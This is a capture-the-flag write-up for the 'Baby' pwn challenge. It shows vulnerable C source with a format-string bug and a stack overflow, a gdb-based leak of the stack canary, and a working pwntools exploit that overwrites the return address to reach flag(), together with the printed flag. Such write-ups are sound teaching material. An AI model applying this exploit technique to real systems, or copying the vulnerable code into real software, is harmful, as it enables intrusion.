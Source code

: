 # Baby

---

### Challenge Description

How do you tackle cookies?

nc challenge1.lagncrash.com 10000

[baby.zip](https://github.com/caprinux/LagNCrash/files/6128453/baby.zip)

---

### Solution

DISCLAIMER: We did not solve this the intended way. 

```
$ pwn checksec babysource 

[*] '/media/babysource'

    Arch:     i386-32-little

    RELRO:    Partial RELRO

    Stack:    Canary found

    NX:       NX enabled

    PIE:      No PIE (0x8048000)
```

Since theres canary in this binary, you will want to leak the canary so that you can override it and then override the return address.

Looking at the source file, 

```C
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
void flag() {
  char buf[64];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
  printf("Run this on the server.\n");
  exit(0);
  }

  fgets(buf,64,f);
  printf(buf);
}
void init() {
      setbuf(stdin, NULL);
      setbuf(stdout, NULL);
     setbuf(stderr, NULL);
}
void vuln() {
     char buf[100];
     for(int i=0;i<2;i++){
         read(0, buf, 0x200);
         printf(buf);
     }
}
int main(void) {
     init();
     puts("Welcome.");
     vuln ();
     return 0;
}
```
We see that this binary executable takes in 2 read inputs.

So basically we see that this executable will take in 2 inputs of 100 bytes into buffer, and the read function will read 200 bytes from buffer. Hmm.

The flow of this executable is basically, the executable print "Welcome" in main() and then goes ahead to read 2 inputs in vuln() which they will print right out before it goes back to the main function that returns.

As you can see, we can overflow buffer and override the return address to our flag address. 

However, as we have seen, this file has stack canary and we need to find a way to overcome the canary, otherwise we cannot overflow as it would just reset us when the check fails.

Debugging and disassembling the vuln function in gdb-gef, we can find the start of array at ebp-0x70 and the canary at ebp-0x0c.

0x70 - 0x0c = 100

So we want to use a format string attack to try to leak the stack, and we try to fill it with enough %x just under 100 characters.

I open the file in gdb and set a breakpoint right after the first printf call, and then run it with "%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x" as my input (notice that if you try anything more than this, you will likely get segmentation fault because you are overwriting your stack canary and you are going to fail the canary check, remember that you only want to leak the canary and not override it yet because you cannot bypass the canary without the canary address)

The binary file prints this

"ffffd6f8 200 80492cd f7fa7d20 0 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 ff0a7825 97c5bc00 804a02b 804c000 "

Now to find out which one prints the canary address, we can compare with the value of the canary by doing ``x/w $ebp-0xc``. I get 97c5bc00 as my canary, and comparing it with the output of printf, I see that it corresponds with the 3rd last printed address.

Now that we know where to get the canary address, we can overflow the 100 bytes of buffer and pass the canary value so we can bypass the check.

The last thing we want to do is print the flag, so we need the flag address which can be easily obtained when you decompile the binary in ghidra, at the flag() function.

Now we can officially craft our exploit.

```py
from pwn import *

flag_addr = 0x080491d2
p = remote("challenge1.lagncrash.com", 10000)

p.recvuntil("Welcome.\n")
p.sendline(b"%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x")
data = p.recv()
canary = data.split(b" ")[-3]
print(canary)
canary = int(canary.decode(), 16)
p.sendline(b"A" * 100 + p32(canary) + b"A" * 12 + p32(flag_addr))
print(p.recv())
```

Executing the exploit, we get the file.

```
b'6f035700'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALNC{T00_EZ_M4Yb3?}\n'
```







